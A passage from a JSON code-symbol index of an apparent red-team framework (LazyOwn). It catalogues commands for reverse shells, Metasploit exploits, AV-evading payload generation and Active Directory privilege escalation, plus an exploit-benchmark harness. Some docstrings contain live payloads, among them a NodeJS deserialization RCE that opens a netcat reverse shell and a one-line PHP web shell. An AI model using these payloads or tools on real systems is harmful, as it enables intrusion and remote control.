http on a Windows system.\nThe script generated PowerShell reverse shell to execute command by curl command\nis copied to the clipboard for easy execution.\n\nParameters:\nline (str): This parameter is used to get the port to create the listener\n\nThe function does not return any value.\nExample of use: curl -X POST http://victim:8080/ -d \"Get-Process\"", "kind": "method", "line": 630, "name": "do_powerserver", "signature": "def do_powerserver(self, line)"}, {"doc": "Asks the user for the URL, database, table, and columns, and then executes the Python script\n'modules/lazybsqli.py' with the provided parameters.\n\nParameters:\n- def_func: Function to execute (not used in this example).\n- line: Command line or additional input (not used in this example).\n\nExample:\n- do_bsqli(None, None)", "kind": "method", "line": 693, "name": "do_sqli", "signature": "def do_sqli(self, line)"}, {"doc": "Executes a payload creation framework for the retrieval and execution of arbitrary CSharp source code.\nSharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS, and WSF.\n\nUsage:\n    sharpshooter [-o <output file>] --oa -t 20 rhost\n\nThis function installs SharpShooter if it is not already installed, prompts the user for the payload type,\nand then runs SharpShooter to create a payload based on the specified type.\n\nParameters:\n    line (str): The command line input for the function (not used directly in the current implementation).\n\nReturns:\n    None\n\nExample:\n    To create a payload using SharpShooter, ensure you have already generated shellcode using lazymsfvenom or venom,\n    and then run this function to specify the payload type and generate the final payload file.", "kind": "method", "line": 724, "name": "do_sharpshooter", "signature": "def do_sharpshooter(self, line)"}, {"doc": "Runs Shellfire with various options and allows generating payloads.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None", "kind": "method", "line": 768, "name": "do_shellfire", "signature": "def do_shellfire(self, line)"}, {"doc": "Generate a downloader command for files in the sessions directory.\n\nThis function lists all files in the 'sessions' directory recursively, excluding certain file extensions.\nThe user can select a file, choose a download method, and the command is generated and copied to the clipboard.\n\n:param line: Optional output filename for the downloader command.\n:returns: None", "kind": "method", "line": 892, "name": "do_downloader", "signature": "def do_downloader(self, line)"}, {"doc": "Automates the EternalBlue (MS17-010) exploitation process using Metasploit.\n\nThis function performs the following tasks:\n1. Selects the EternalBlue Metasploit module for Windows SMB exploitation.\n2. Displays the current options for the module.\n3. Sets the required payload options, such as `LHOST` and `RHOST`.\n4. Executes the exploit and attempts to gain access to the target machine.\n\n:param line: Command line input that provides the LHOST and RHOST.\n:type line: str\n:returns: None", "kind": "method", "line": 972, "name": "do_eternal", "signature": "def do_eternal(self, line)"}, {"doc": "HttpFileServer version 2.3. Vulnerable using the module rejetto_hfs_exec of metasploit\n:param line: Command line input that provides the LHOST and RHOST.\n:type line: str\n:returns: None", "kind": "method", "line": 1016, "name": "do_rejetto_hfs_exec", "signature": "def do_rejetto_hfs_exec(self, line)"}, {"doc": "SMB CVE-2008-4250. Vulnerable using the module ms08_067_netapi of metasploit\n:param line: Command line input that provides the LHOST and RHOST.\n:type line: str\n:returns: None", "kind": "method", "line": 1053, "name": "do_ms08_067_netapi", "signature": "def do_ms08_067_netapi(self, line)"}, {"doc": "Executes the XSS (Cross-Site Scripting) vulnerability testing procedure\nusing user-defined parameters and configurations.\n\nThis method guides the user through the process of setting up and\nexecuting XSS payload injections against a specified target self.params['domain'].\nIt prompts the user for necessary input, including the XSS payload\nURL, the target self.params['domain'], and the request timeout settings. The\nfunction ensures that all required inputs are provided and valid\nbefore proceeding with the injection process.\n\nParameters:\n    line (str): A line of input that may contain additional parameters\n                or commands (not utilized within this method).\n\nRaises:\n    ValueError: If the provided payload URL or target self.params['domain'] is empty,\n                indicating that these are required for the injection\n                process.\n\nThis method leverages user input for flexibility, allowing\ncustomized testing scenarios for XSS vulnerabilities.", "kind": "method", "line": 1090, "name": "do_xss", "signature": "def do_xss(self, line)"}, {"doc": "Handles the creation and serialization of a template helper.\n\nThis function performs the following tasks:\n1. Retrieves the filename and data to be written from the input line.\n2. Initializes a template file and writes the data to it.\n3. Serializes the template data and outputs the result.\n\nArgs:\n    line (str): The input line containing the filename and data in the format \"filename, data\".\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    template_helper_serializer shell.php, <?php system($_GET[0]); ?>", "kind": "method", "line": 1135, "name": "do_template_helper_serializer", "signature": "def do_template_helper_serializer(self, line)"}, {"doc": "Command xsstrike: Installs and runs XSStrike for finding XSS vulnerabilities.\n\nThis function performs the following tasks:\n1. Checks if XSStrike is already cloned in the external/.exploit directory.\n2. Clones the XSStrike repository if not present.\n3. Installs required dependencies.\n4. Prompts the user for a target URL, crawling level, request method, encoding, and additional XSStrike options.\n5. Executes XSStrike for testing vulnerabilities, supporting multiple features like fuzzing, blind XSS injection, crawling, and more.\n\nArgs:\n    line (str): Optional argument for specifying the target URL, crawling level, encoding, and other XSStrike options.\n\nReturns:\n    None\n\nExample:\n    xsstrike -u http://example.com/search.php?q=query --crawl -l 3", "kind": "method", "line": 1179, "name": "do_xsstrike", "signature": "def do_xsstrike(self, line)"}, {"doc": "Command sireprat: Automates the setup and usage of SirepRAT to perform various attacks on a Windows IoT Core device.\n\nThis function performs the following tasks:\n1. Installs required dependencies and sets up SirepRAT if not already installed.\n2. Prompts the user to select from predefined attacks, including retrieving system information, executing commands, saving registry keys, and copying files.\n3. Executes the selected attack on the target device, using the remote host IP stored in self.params['rhost'].\n\nArgs:\n    line (str): Optional argument for specifying attack type directly.\n\nReturns:\n    None\n\nExample:\n    sireprat", "kind": "method", "line": 1247, "name": "do_sireprat", "signature": "def do_sireprat(self, line)"}, {"doc": "Command upload_bypass: Automates the installation and execution of Upload_Bypass for performing file upload bypass tests.\n\nThis function performs the following tasks:\n1. Clones and installs Upload_Bypass if not already installed.\n2. Prompts the user for the type of execution mode (Detection, Exploitation, or Anti-Malware).\n3. Prepares and executes the chosen mode based on user input: success message, forbidden extension, upload directory, and proxy settings.\n\nArgs:\n    line (str): Optional argument for specifying execution mode, request file, success message, forbidden extension, and other Upload_Bypass options.\n\nReturns:\n    None\n\nExample:\n    upload_bypass --detect --request_file test --success 'File uploaded successfully' --extension php --upload_dir /uploads --burp", "kind": "method", "line": 1359, "name": "do_upload_bypass", "signature": "def do_upload_bypass(self, line)"}, {"doc": "Executes the pyWhisker tool for manipulating the msDS-KeyCredentialLink attribute of a target user or computer.\n\nThis function performs the following actions:\n1. Checks if pyWhisker is installed; if not, it clones the repository.\n2. Executes various actions on the msDS-KeyCredentialLink attribute, allowing actions like listing, adding,\nspraying, removing, clearing, exporting, or importing KeyCredentials for a specified target user or computer.\n\nThe command accepts different authentication options:\n- NTLM (Clelazyt password or Pass-the-hash)\n- Kerberos (Clelazyt password, Pass-the-key, Pass-the-cache)\n\nParameters:\nline (str): Command argument specifying the pyWhisker action and options.\n            Expected format:\n                - -t TARGET_SAMNAME or -tl TARGET_SAMNAME_LIST for the target account(s)\n                - -a ACTION to specify the action (list, add, spray, remove, clear, info, export, import)\n                - Optional flags for authentication and connection\n\nReturns:\nNone", "kind": "method", "line": 1420, "name": "do_pywhisker", "signature": "def do_pywhisker(self, line)"}, {"doc": "Executes the Impacket owneredit tool for manipulating ownership of Active Directory objects.\n\nThis function performs the following actions:\n1. Prompts the user for necessary parameters if not provided.\n2. Executes the command to change the owner of a specified target in Active Directory.\n\nThe command accepts the following parameters:\n- New owner (user) for the target object.\n- Target object to be manipulated.\n- Domain credentials for authentication.\n- DC IP address for the self.params['domain'] controller.\n\nParameters:\nline (str): Command argument specifying the new owner and target options.\n            Expected format:\n                - -new-owner NEW_OWNER for the new owner\n                - -target TARGET_OBJECT for the target object\n                - Required flags for authentication and connection\n\nReturns:\nNone", "kind": "method", "line": 1470, "name": "do_owneredit", "signature": "def do_owneredit(self, line)"}, {"doc": "Executes the gettgtpkinit.py tool from PKINITtools to request a TGT using Kerberos PKINIT with a PFX or PEM certificate.\n\nThis function performs the following actions:\n1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.\n2. Requests a TGT using the specified PFX or PEM certificate and outputs the TGT to the specified ccache file.\n\nParameters:\nline (str): Command arguments specifying the certificate file and ccache location.\n            Expected format:\n                - self.params['domain']/username ccache\n                - Additional flags like -cert-pfx file, -pfx-pass password, -cert-pem file, etc.\n\nReturns:\nNone", "kind": "method", "line": 1516, "name": "do_gettgtpkinit_py", "signature": "def do_gettgtpkinit_py(self, line)"}, {"doc": "Executes the gets4uticket.py tool from PKINITtools to request an S4U2Self service ticket using Kerberos.\n\nThis function performs the following actions:\n1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.\n2. Requests a service ticket using the S4U2Self protocol and outputs it to the specified ccache file.\n\nParameters:\nline (str): Command arguments specifying the kerberos_connection_url, SPN, target user, and ccache.\n            Expected format:\n                - kerberos_connection_url spn targetuser ccache\n                - Additional flags like -v for verbose output.\n\nReturns:\nNone", "kind": "method", "line": 1567, "name": "do_gets4uticket_py", "signature": "def do_gets4uticket_py(self, line)"}, {"doc": "Executes the aclpwn.py tool to find and exploit ACL paths for privilege escalation in an Active Directory environment.\n\nThis function performs the following actions:\n1. Checks if aclpwn is installed; if not, it installs the package.\n2. Finds an exploit path using specified starting and target points in Active Directory.\n3. Executes the path to escalate privileges if the path is found.\n\nParameters:\nline (str): Command arguments specifying the find and target points, self.params['domain'], and optional flags.\n            Expected format:\n                - -f starting_point -ft starting_type -d self.params['domain']\n                - Additional flags like -t target, -tt target_type, --server, -dry, --restore, etc.\n\nReturns:\nNone", "kind": "method", "line": 1614, "name": "do_aclpwn_py", "signature": "def do_aclpwn_py(self, line)"}, {"doc": "Executes the addspn.py tool to manage Service Principal Names (SPNs) on Active Directory accounts via LDAP.\n\nThis function performs the following actions:\n1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.\n2. Adds, removes, or queries SPNs on the specified target based on the provided options.\n\nParameters:\nline (str): Command arguments specifying the target hostname, user credentials, and SPN actions.\n            Expected format:\n                - hostname user password target spn -options\n                - Options include:\n                - -r to remove an SPN\n                - -q to query current SPNs\n                - -a to add SPN via msDS-AdditionalDnsHostName\n\nReturns:\nNone", "kind": "method", "line": 1662, "name": "do_addspn_py", "signature": "def do_addspn_py(self, line)"}, {"doc": "Executes the printerbug.py tool to trigger the SpoolService bug via RPC backconnect.\n\nThis function performs the following actions:\n1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.\n2. Executes the printerbug tool to attempt an RPC backconnect to the specified attacker host.\n\nParameters:\nline (str): Command arguments specifying the target and attacker host.\n            Expected format:\n                - target_username@target_host attacker_host\n\nReturns:\nNone", "kind": "method", "line": 1706, "name": "do_printerbug_py", "signature": "def do_printerbug_py(self, line)"}, {"doc": "Executes the krbrelayx.py tool for Kerberos relaying or unconstrained delegation abuse.\n\nThis function performs the following actions:\n1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.\n2. Relays Kerberos tickets or abuses unconstrained delegation to access target services.\n\nParameters:\nline (str): Command arguments specifying the target and options.\n            Expected format:\n                - target options\n                - Options include:\n                - -t target_host to specify the target host\n                - -l loot directory to save TGTs or dump information\n\nReturns:\nNone", "kind": "method", "line": 1760, "name": "do_krbrelayx_py", "signature": "def do_krbrelayx_py(self, line)"}, {"doc": "Executes the autobloody tool for automating Active Directory privilege escalation paths.\n\nThis function performs the following actions:\n1. Checks if autobloody is installed; if not, it clones the repository and installs dependencies.\n2. Executes the autobloody command to find and exploit privilege escalation paths.\n\nParameters:\nline (str): Command arguments specifying the source and target objects and options.\n            Expected format:\n                - -u username for NTLM authentication\n                - -p password for NTLM authentication\n                - --host domain_controller_ip for the IP of the Domain Controller\n                - -dp neo4j_password for Neo4j database password\n                - -ds source_label for the source node label in BloodHound\n                - -dt target_label for the target node label in BloodHound\n\nReturns:\nNone", "kind": "method", "line": 1805, "name": "do_autoblody", "signature": "def do_autoblody(self, line)"}, {"doc": "        We open a Netcat listener on port 443 and attempt to exploit NodeJS deserialization by sending the\n        following payload:\n        {\"rce\":\"_$$ND_FUNC$$_function() {require('child_process').exec('nc -e /bin/bash 10.10.xx.xx 443',function(error,stdout,stderr) {console.log (stdout) });\n}()\"}\n        Some WAF can be bypassed with the use of unicode characters.\n\n        Generate an obfuscated payload, encode it in base64, and append the SSH public key to the authorized_keys file.\n\n        Args:\n            ip_address (str): The IP address for the reverse shell connection.\n            port (int): The port for the reverse shell connection.\n            ssh_public_key (str): The SSH public key to add to authorized_keys.\n\n        Returns:\n            str: The base64-encoded obfuscated payload.\n\n        ", "kind": "method", "line": 1869, "name": "do_unicode_WAFbypass", "signature": "def do_unicode_WAFbypass(self, line)"}, {"doc": "Initiates a reverse MSSQL shell by starting an HTTP server to handle incoming connections and exfiltrate data.\n\nThis function does the following:\n1. Starts an HTTP server to listen for connections from the MSSQL server.\n2. Intercepts and decodes responses from the target server.\n3. Prompts the user to enter commands, sends them to the target, and displays the output.\n\nParameters:\nline (str): Unused command argument from the cmd2 prompt.\n\nReturns:\nNone", "kind": "method", "line": 1924, "name": "do_sqli_mssql_test", "signature": "def do_sqli_mssql_test(self, line)"}, {"doc": "Executes the pyOracle2 tool for performing padding oracle attacks.\n\nThis function performs the following actions:\n1. Verifies the presence of the pyOracle2 tool; if not installed, it clones the repository and installs dependencies.\n2. Prompts the user for configuration parameters or retrieves them from self.params to create a job-specific configuration file.\n3. Executes the pyOracle2 tool using the generated configuration file and specified options.\n\nParameters:\nline (str): Command arguments specifying additional tool options if required.\n            Expected format: [optional parameters]\n\nReturns:\nNone", "kind": "method", "line": 1962, "name": "do_pyoracle2", "signature": "def do_pyoracle2(self, line)"}, {"doc": "Exploits a potential Local File Inclusion (LFI) vulnerability by crafting\nand sending HTTP GET requests to a specified URL.\n\nThe user can specify the target URL directly via the `line` parameter or\nprovide it interactively. If no URL is provided, the method uses a default\nvalue stored in `self.params['url']`. Users are then prompted to specify\nthe file to retrieve from the server, defaulting to `/etc/passwd`.\n\nArgs:\n    line (str): Optional URL input provided directly in the command line.\n                If not supplied, a default URL from `self.params['url']`\n                will be used.\n\nBehavior:\n    - Continuously prompts the user to specify a file to fetch via the\n    target LFI vulnerability.\n    - Sends a GET request to the constructed URL and prints the server's\n    response to the console.\n    - Allows users to inspect different files on the target server by\n    modifying the file path interactively.", "kind": "method", "line": 2044, "name": "do_lfi", "signature": "def do_lfi(self, line)"}, {"doc": "Executes the GreatSCT tool for generating payloads that bypass antivirus and application whitelisting solutions.\n\nThis function performs the following actions:\n1. Verifies the presence of the GreatSCT tool; if not installed, it clones the repository and installs dependencies.\n2. Configures and generates the payload using user-provided or default parameters.\n3. Executes the GreatSCT tool with the specified options.\n\nParameters:\nline (str): Command arguments specifying additional tool options if required.\n            Expected format: [--ip <IP> --port <PORT> --tool <TOOL> --payload <PAYLOAD>]\n\nReturns:\nNone", "kind": "method", "line": 2086, "name": "do_greatSCT", "signature": "def do_greatSCT(self, line)"}, {"doc": "Executes the Impacket sqsh tool for manipulating ownership of Active Directory objects.\n\nThis function performs the following actions:\n1. Prompts the user for necessary parameters if not provided.\n2. Executes the command to change the owner of a specified target in Active Directory.\n\nThe command accepts the following parameters:\n- New owner (user) for the target object.\n- Target object to be manipulated.\n- Domain credentials for authentication.\n- DC IP address for the self.params['domain'] controller.\n\nParameters:\nline (str): Command argument specifying the new owner and target options.\n            Expected format:\n                - -new-owner NEW_OWNER for the new owner\n                - -target TARGET_OBJECT for the target object\n                - Required flags for authentication and connection\n\nReturns:\nNone", "kind": "method", "line": 2131, "name": "do_sqsh", "signature": "def do_sqsh(self, line)"}, {"doc": "Uses the jwt_tool to analyze, tamper, or exploit JSON Web Tokens (JWTs).\n\nThis function performs the following actions:\n1. Verifies the presence of jwt_tool; if not installed, it clones the repository and installs dependencies.\n2. Accepts a JWT token as input or uses the provided argument for analysis.\n3. Executes jwt_tool with the specified options and prints the results.\n\nParameters:\nline (str): Command argument containing a JWT token to analyze. If not provided, prompts the user for a token.\n\nReturns:\nNone", "kind": "method", "line": 2176, "name": "do_jwt_tool", "signature": "def do_jwt_tool(self, line)"}, {"doc": "Applies various filtering techniques to the given command line by modifying each character or word appropriately.\n\nThis function takes any command and generates variations of it using several filtering techniques, including:\n1. Quote filtering.\n2. Slash filtering.\n\nParameters:\nline (str): The input command to be filtered.\n\nReturns:\nNone", "kind": "method", "line": 2220, "name": "do_filtering", "signature": "def do_filtering(self, line)"}, {"doc": "Exploits a target by injecting a malicious payload and collecting admin information.\n\nThis function performs the following steps:\n1. Logs in to the application with provided credentials.\n2. Injects a malicious payload to elevate the role of a user to 'admin.'\n3. Executes a secondary payload to exfiltrate admin tokens by abusing '/api/info.'\n4. Prepares for further exploitation using '/admin' and '/api/json-rpc'.\n\nParameters:\nline (str): Additional parameters for the target.\n\nReturns:\nNone", "kind": "method", "line": 2246, "name": "do_lol", "signature": "def do_lol(self, line)"}, {"doc": "Encode a given payload into UTF-16 escape sequences.\n\nThis function takes a payload string and encodes each character into its\nUTF-16 hexadecimal representation (e.g., `A` becomes `A`). If no\npayload is provided as input, it prompts the user to input one, with a\ndefault value of `' or 1=1-- -`.\n\nParameters:\n    line (str): The input payload to encode. If empty, the user is prompted\n    to provide one interactively.\n\nReturns:\n    None: The encoded payload is printed to the console.", "kind": "method", "line": 2331, "name": "do_utf", "signature": "def do_utf(self, line)"}, {"doc": "Executes Dig Dug to inflate the size of an executable file, leveraging pre-configured settings\nand interactive input for minimal user effort.\n\nThis function integrates with the Dig Dug tool to increase an executable's size by appending\ndictionary words. It automates repository setup, selects the input file from user prompts or defaults,\nand uses sensible configurations to execute the inflation process. Dig Dug is particularly useful\nfor evading AV/EDR detections by exceeding size thresholds for analysis.\n\nBehavior:\n    - Automatically clones the Dig Dug repository if not already present in `external/.exploit/DigDug`.\n    - Calls the `venom` command to prepare the necessary payloads for execution.\n    - Prompts the user to select an input executable and specify the desired size increase.\n    - Uses a default dictionary (`google-10000-english-usa-gt5.txt`) for padding.\n\nRequirements:\n    - A Python environment with required dependencies.\n    - Executable files available in the working directory or `sessions`.\n\nUsage:\n    Invoke this function to inflate the size of a generated payload or user-specified executable.\n    Interactive prompts will guide the input selection and size configuration.\n\nExamples:\n    1. Increase the size of a selected payload by 100 MB:\n        >>> digdug\n\n    2. Use the default configurations to inflate an executable:\n        No additional parameters are required. The user is prompted for size and file selection.", "kind": "method", "line": 2375, "name": "do_digdug", "signature": "def do_digdug(self, line)"}, {"doc": "Exploits OpenSSH vulnerability CVE-2023-38408 via the PKCS#11 feature of the ssh-agent.\n\nSteps:\n1. Attacker connects via SSH to a target server.\n2. Identify and export the SSH_AUTH_SOCK environment variable.\n3. Send crafted shellcode to exploit the PKCS#11 vulnerability.\n4. Load malicious libraries via ssh-add and trigger SIGSEGV for code execution.\n\nUsage:\n    do_sshexploit\n\nExample:\n    do_sshexploit\n\nNote:\n    This function is for educational purposes only. Unauthorized exploitation is illegal.", "kind": "method", "line": 2433, "name": "do_sshexploit", "signature": "def do_sshexploit(self, line)"}, {"doc": "Generates an Excel 4.0 (XLM) macro from a provided C# source file using EXCELntDonut.\n\nThis function:\n    - Installs EXCELntDonut dependencies if not already installed.\n    - Clones the EXCELntDonut repository if not present.\n    - Compiles the provided C# source file into shellcode.\n    - Generates the XLM macro and saves it to a specified output file.\n\nBehavior:\n    - Requires `mono-complete` and `pip3` with required Python packages installed.\n    - Accepts parameters for input file, references, sandbox checks, obfuscation, and output file.\n    - Outputs the generated macro in a `.txt` or `.csv` format.\n\nUsage:\n    excelntdonut -f <source_file.cs> -r <references> [--sandbox] [--obfuscate] [-o <output_file>]\n\nExample:\n    excelntdonut -f payload.cs -r System.Windows.Forms.dll --sandbox --obfuscate -o macro.txt", "kind": "method", "line": 2502, "name": "do_excelntdonut", "signature": "def do_excelntdonut(self, line)"}, {"doc": "Synchronizes the system clock with a specified NTP server.\n\nThis method constructs the target NTP server address using the self.params['domain'] and subdomain\nparameters. It then prompts the user to confirm or modify the target address.\nFinally, it executes the `ntpdate` command to synchronize the system clock with\nthe specified NTP server.\n\n:param line: The command line input (not used in this method).\n:type line: str\n:return: None", "kind": "method", "line": 2558, "name": "do_ntpdate", "signature": "def do_ntpdate(self, line)"}, {"doc": "Check Active Directory Certificate Services for ESC1-ESC8 vulnerabilities.\n\nUsage: adcs_check <username> <password> <domain> <dc_ip> [ntlm_hash]\n\nEnumerates certificate templates and maps them to applicable\nESC attack techniques. Uses Certipy under the hood.\nAuto-installs certipy-ad if missing.", "kind": "method", "line": 2582, "name": "do_adcs_check", "signature": "def do_adcs_check(self, line)"}, {"doc": "Run autonomous exploitation chain: recon -> vuln -> exploit -> post-exploit.\n\nUsage:\n    chain [rhost] [nmap_xml_path]   Analyze target and generate exploit plan\n    chain report                     Show last chain report\n\nIf no rhost is given, uses the current rhost from payload.json.\nIf no nmap_xml_path is given, auto-discovers all scan_*.nmap.xml in sessions/.", "kind": "method", "line": 2641, "name": "do_chain", "signature": "def do_chain(self, line)"}, {"doc": "AI-powered exploit recommendation — matches discovered services to CVEs.\n\nUsage:\n    exploit_recommend               Show top 10 recommendations\n    exploit_recommend <N>           Show top N recommendations\n    exploit_recommend json          Output as JSON", "kind": "method", "line": 2738, "name": "do_exploit_recommend", "signature": "def do_exploit_recommend(self, line)"}, {"doc": "Sets up a Metasploit multi/handler exploit configuration in the provided config file.\n\nArgs:\n    config_file (file-like object): The file object to write the Metasploit handler configuration to.\n    lhost (str): The local host IP address to listen for incoming connections.\n    lport (int): The local port number to listen for incoming connections.\n\nWrites:\n    - Configuration commands to the file to set up the Metasploit handler with the specified payload and options.\n    - The payload used is `php/meterpreter/reverse_tcp`.\n    - The handler is configured to listen on the provided LHOST and LPORT.\n    - Starts the exploit with the `-j -z` options.", "kind": "function", "line": 513, "name": "setup_handler", "signature": "def setup_handler(config_file, lhost, lport)"}, {"doc": "Configures an exploit for the Cacti Package Import Remote Code Execution vulnerability in the provided config file.\n\nArgs:\n    config_file (file-like object): The file object to write the Metasploit exploit configuration to.\n    host (str): The target host IP address where the Cacti service is running.\n\nWrites:\n    - Configuration commands to the file to set up the Metasploit exploit for the Cacti Package Import RCE.\n    - Sets the RHOST to the target host IP.\n    - Sets the payload options including the LHOST, USERNAME, and PASSWORD.\n    - Starts the exploit with the `-j -z` options.", "kind": "function", "line": 536, "name": "cacti_exploit", "signature": "def cacti_exploit(config_file, host)"}]}, {"doc": "ExploitGym CLI command set — real-world exploit benchmark harness.  Wraps the sunblaze-ucb/exploitgym benchmark (userspace, V8, Linux kernel tasks) behind LazyOwn. The wrapper is adaptive: it detects whether the ExploitGym harness is installed and ready, guides setup when it is not, and reuses the Red Team Gym ELO/leaderboard pipeline for scored results.  The harness is dual-use and MUST be run only against ExploitGym's own containerised, network-isolated task environments.", "id": "cli/commands/exploitgym.py", "kind": "module", "label": "exploitgym.py", "language": "py", "sha256": "c6b9e954aeeb15ba", "symbol_count": 10, "symbols": [{"doc": "ExploitGym — realistic vulnerability-to-exploit benchmark tasks.", "kind": "class", "line": 36, "name": "ExploitGymCommandSet", "signature": "class ExploitGymCommandSet(LazyOwnCommandSet)"}, {"doc": "ExploitGym — real-world exploit benchmark via containerised tasks.\n\nUsage:\n    exploitgym status                 — check harness readiness\n    exploitgym setup [step ...]       — automate install (clone/deps/data/validate/squid/images)\n    exploitgym list [domain] [--limit N]\n    exploitgym pull <task_id>         — pull the task Docker image\n    exploitgym run <task_id> [--model M] [--no-mitigations]\n    exploitgym verify <task_id>       — check a captured flag on record\n    exploitgym score <task_id> [--failed] [--techniques t1,t2]\n    exploitgym docs                   — open the evaluation docs\n\nDomain filter: userspace | v8 | kernel.\n\nExamples:\n    exploitgym status\n    exploitgym list kernel --limit 5\n    exploitgym pull cve-2021-XXXX\n    exploitgym run cve-2021-XXXX --model claude --no-mitigations\n    exploitgym score cve-2021-XXXX", "kind": "method", "line": 43, "name": "do_exploitgym", "signature": "def do_exploitgym(self, line)"}, {"doc": "Show ExploitGym harness readiness.", "kind": "method", "line": 90, "name": "_egym_status", "signature": "def _egym_status(self, _args)"}, {"doc": "Automate the ExploitGym harness installation.", "kind": "method", "line": 120, "name": "_egym_setup", "signature": "def _egym_setup(self, args)"}, {"doc": "List ExploitGym tasks, optionally filtered by domain.", "kind": "method", "line": 149, "name": "_egym_list", "signature": "def _egym_list(self, args)"}, {"doc": "Pull the Docker image for a task.", "kind": "method", "line": 181, "name": "_egym_pull", "signature": "def _egym_pull(self, args)"}, {"doc": "Run the agent against an ExploitGym task.", "kind": "method", "line": 198, "name": "_egym_run", "signature": "def _egym_run(self, args)"}, {"doc": "Verify a captured flag on record for a task.", "kind": "method", "line": 245, "name": "_egym_verify", "signature": "def _egym_verify(self, args)"}, {"doc": "Award Red Team Gym ELO for a task outcome.", "kind": "method", "line": 258, "name": "_egym_score", "signature": "def _egym_score(self, args)"}, {"doc": "Print the ExploitGym evaluation documentation link.", "kind": "method", "line": 289, "name": "_egym_docs", "signature": "def _egym_docs(self, _args)"}]}, {"doc": "Help, tutorial and phase guidance extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.", "id": "cli/commands/help_ui.py", "kind": "module", "label": "help_ui.py", "language": "py", "sha256": "853f8239842a8736", "symbol_count": 16, "symbols": [{"doc": "Help, tutorial and phase guidance.", "kind": "class", "line": 29, "name": "HelpUiCommandSet", "signature": "class HelpUiCommandSet(LazyOwnCommandSet)"}, {"doc": "Guided first-run setup wizard — configure rhost, lhost, domain, wordlists and more.\n\nWalks the operator through the seven essential configuration values with\nauto-detection (lhost from routing table, wordlist paths from SecLists),\nlive ping validation for rhost, and a readiness summary at the end.\n\nUsage:\n    ``wizard``            — start interactive setup\n    ``wizard --tutorial`` — extended help text for first-time operators\n    ``wizard --check``    — show readiness summary only, no prompts\n    ``wizard --show``     — show current values only, no prompts\n    ``wizard --only=rhost,lhost`` — edit selected fields only\n    ``wizard --quick``    — auto-detect defaults without any prompts\n    ``wizard --non-interactive [--rhost X] [--lhost Y] [--domain Z]``\n                           — apply values without prompting (Docker/CI)\n\nBoth novice and experienced operators can use this:\n- Novices: step-by-step prompts with clear descriptions; pass\n  ``--tutorial`` for in-depth explanations of every field.\n- Experts: press Enter to accept auto-detected values; Ctrl-C to abort.", "kind": "method", "line": 36, "name": "do_wizard", "signature": "def do_wizard(self, line)"}, {"doc": "Interactive tutorial that walks you through the golden path.\n\nGuides a new operator step-by-step through:\n    ping -> lazynmap -> auto_populate -> facts_show -> recommend_next\n\nUsage:\n    ``tutorial``         — run the tutorial (skips if already completed)\n    ``tutorial --force`` — replay even if already completed", "kind": "method", "line": 151, "name": "do_tutorial", "signature": "def do_tutorial(self, line)"}, {"doc": "List all commands for a given kill-chain phase.\n\nUsage:\n    ``help_phase recon``       — list recon commands\n    ``help_phase exploit``     — list exploit commands\n    ``help_phase``             — list all available phases\n\nAvailable phases: recon, enum, exploit, postexp, persist, privesc,\ncred, lateral, exfil, c2, report, misc.", "kind": "method", "line": 175, "name": "do_help_phase", "signature": "def do_help_phase(self, line)"}, {"doc": "Show which session requirements are met (rhost, creds, domain, OS).\n\nUseful to quickly check what is configured before running a command.\n\nUsage: ``help_status``", "kind": "method", "line": 208, "name": "do_help_status", "signature": "def do_help_status(self, line)"}, {"doc": "Show contextual help for a command: description, phase, requirements, tips.\n\nUnlike plain 'help', this shows whether the command needs rhost,\ncredentials, or domain, and gives phase-specific tips.\n\nUsage:\n    ``ctx_help lazynmap``     — contextual help for lazynmap\n    ``ctx_help evil``         — contextual help for evil-winrm", "kind": "method", "line": 221, "name": "do_ctx_help", "signature": "def do_ctx_help(self, line)"}, {"doc": "Print a single-line operator context: rhost, lhost, domain, phase, os, creds.\n\nNo arguments. Reads payload.json and sessions/world_model.json. Fast —\nsuitable to run between every command for situational awareness.\n\nUsage:\n    ``ctx``", "kind": "method", "line": 242, "name": "do_ctx", "signature": "def do_ctx(self, line)"}, {"doc": "Interactive command explorer organized by goals and phases.\n\nBrowse commands by what you want to accomplish, not by category.\nShows command names, descriptions, and aliases for quick discovery.\n\nUsage:\n    ``command_explorer``            — show all goals\n    ``command_explorer web``        — show web-related commands\n    ``command_explorer smb_windows`` — show SMB/Windows commands\n    ``command_explorer search nmap`` — search commands by keyword", "kind": "method", "line": 254, "name": "do_command_explorer", "signature": "def do_command_explorer(self, line)"}, {"doc": "Show configuration status grouped by category with set/missing indicators.\n\nReplaces the raw 'get' (payload.json dump) with a human-friendly\noverview showing which fields are configured, which need attention,\nand how to set them.\n\nUsage:\n    ``config_status``           — full grouped status\n    ``config_status --quick``   — show only missing required fields", "kind": "method", "line": 287, "name": "do_config_status", "signature": "def do_config_status(self, line)"}, {"doc": "Switch the TUI colour theme used by the splash and styled output.\n\nThemes change the accent palette of LazyOwn's rich output (the\nfirst-run splash overlay and any semantic styled panels). The\nselection persists to ``payload.json`` under ``tui_theme`` so it\nsurvives shell restarts.\n\nUsage:\n    ``tui_theme``          — list available themes, mark the active one\n    ``tui_theme <name>``   — switch to a named theme (case-insensitive)\n    ``tui_theme cycle``    — advance to the next theme in order\n    ``tui_theme prev``     — step back to the previous theme\n    ``tui_theme reset``    — return to the default theme", "kind": "method", "line": 308, "name": "do_tui_theme", "signature": "def do_tui_theme(self, line)"}, {"doc": "Preflight environment health check — verify the install is ready.\n\nComplements ``wizard``. Where ``wizard --check`` validates your\nconfiguration (payload.json values), ``doctor`` validates the\ninstallation itself: Python version, active virtual environment,\nimportability of the third-party packages install.sh provisions, the\nC2 TLS certificates, payload.json, SecLists, and external kill-chain\ntooling.\n\nUsage:\n    ``doctor``       — run every check and print a status table\n    ``doctor --fix`` — interactively offer to install missing packages\n    ``doctor -y``    — auto-fix all issues without prompting\n\nBlocking failures (missing required packages, payload.json, or an\nunsupported Python) are highlighted in red; warnings cover optional\nfeatures that will simply be skipped at runtime.", "kind": "method", "line": 334, "name": "do_doctor", "signature": "def do_doctor(self, line)"}, {"doc": "Show ELO score, karma rank and exploration progress for 